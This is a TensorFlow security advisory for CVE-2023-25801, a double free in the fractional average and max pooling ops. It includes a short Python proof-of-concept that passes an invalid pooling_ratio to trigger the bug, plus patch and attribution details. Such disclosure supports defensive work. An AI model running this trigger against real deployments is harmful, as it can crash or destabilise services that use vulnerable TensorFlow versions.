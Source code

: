 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2023-003.md
## TFSA-2023-003: Double free in Fractional(Max/Avg)Pool

### CVE Number
CVE-2023-25801

### Impact
`nn_ops.fractional_avg_pool_v2` and `nn_ops.fractional_max_pool_v2` require the first and fourth elements of their parameter `pooling_ratio` to be equal to 1.0, as pooling on batch and channel dimensions is not supported.

```python
import tensorflow as tf
import os
import numpy as np
from tensorflow.python.ops import nn_ops
try:
  arg_0_tensor = tf.random.uniform([3, 30, 50, 3], dtype=tf.float64)
  arg_0 = tf.identity(arg_0_tensor)
  arg_1_0 = 2
  arg_1_1 = 3
  arg_1_2 = 1
  arg_1_3 = 1
  arg_1 = [arg_1_0,arg_1_1,arg_1_2,arg_1_3,]
  arg_2 = True
  arg_3 = True
  seed = 341261001
  out = nn_ops.fractional_avg_pool_v2(arg_0,arg_1,arg_2,arg_3,seed=seed,)
except Exception as e:
  print("Error:"+str(e))
```

### Patches
We have patched the issue in GitHub commit [ee50d1e00f81f62a4517453f721c634bbb478307](https://github.com/tensorflow/tensorflow/commit/ee50d1e00f81f62a4517453f721c634bbb478307).

The fix will be included in TensorFlow 2.12. We will also cherrypick this commit on TensorFlow 2.11.1.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability was reported by [dmc1778](https://github.com/dmc1778), of [nimashiri2012@gmail.com](mailto:nimashiri2012@gmail.com).
